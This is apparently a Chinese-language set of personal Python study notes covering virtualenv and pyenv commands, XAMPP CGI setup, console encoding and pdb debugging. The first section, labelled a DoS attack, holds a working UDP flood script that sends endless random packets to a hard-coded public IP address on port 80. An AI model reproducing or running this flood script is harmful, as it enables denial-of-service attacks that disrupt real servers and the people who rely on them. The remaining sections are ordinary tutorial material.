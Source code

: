 ﻿# Python学习

## Dos 攻击

python 2.7.8

```python
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

ip = '118.89.38.11'
port = 80

os.system("clear")
os.system("figlet Attack Starting")
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
```

## Python 调试功能

Thonny

## 虚环境安装

### venv
a single version different virtual environments
Python 单版本, 虚拟环境

给每个python项目提供不同环境，数据库版本等
```
pip install virtualenv  //安装
cd dir  //进项目目录
virtualenv venv //新建venv目录,复制系统python到venv
./venv/bin/pip install tornado //虚环境安装tornado
./venv/bin/python xxxx.py //虚环境运行xxxx.py
source ./venv/bin/activate //activate命令启动虚环境，不用显式调用虚环境bin
deactivate //退出虚环境
// 使用``~/.bashrc``的一个环境变量将解释器改为全局性的：
export VIRTUALENVWRAPPER_PYTHON=/usr/bin/python2.7
```
### pyenv

Python 多版本管理
to use multiple versions without virtual environments

```shell
brew update
brew pyenv install/upgrade
pyenv install 2.7.8
brew uninstall pyenv  卸载 pyenv
pyenv uninstall  卸载 python 版本
pyenv install 3.6.3  # Install Python version
pyenv install 3.4.0
pyenv versions       # Displays the currently active Python version, along with information on how it was set.
pyenv version       # Lists all Python versions known to pyenv, and shows an asterisk next to the currently active version.
pyenv global 3.6.3   # Set your system's Python version
pyenv shell 3.6.3   # Set your shell's Python version
pyenv shell   # show your shell's Python version
pyenv whence # Lists all Python versions with the given command installed.
```

## xampp Apache服务器配置Python
打开httd.conf

AddHandler cgi-script .cgi .pl .asp 添加.py
AddHandler cgi-script .cgi .pl .asp .py
把mycgi-test.py放到xampp\cgi-bin下,浏览器打开
localhost/cgi-bin/mycgi-test.py

mycgi-test.py代码
```
#! C:\Python27\python.exe # python接收器路径
 
print 'Content-type:text/plain'
print
 
print"Hello Cooder"
```
## window上cmd显示中文问题

在程序里打中文编码为unicode编码，就是utf-8
print u"中文"  #前面加上u
s="爱你"
print s.decode('utf-8')  #或者强制编码
## 调试
python -m pdb my.py
b 10 第10行断点
n next
s step
l list
p print
c contune
q quit
j 10 jump 10 跳到第10行
直接回车是重复前一条命令!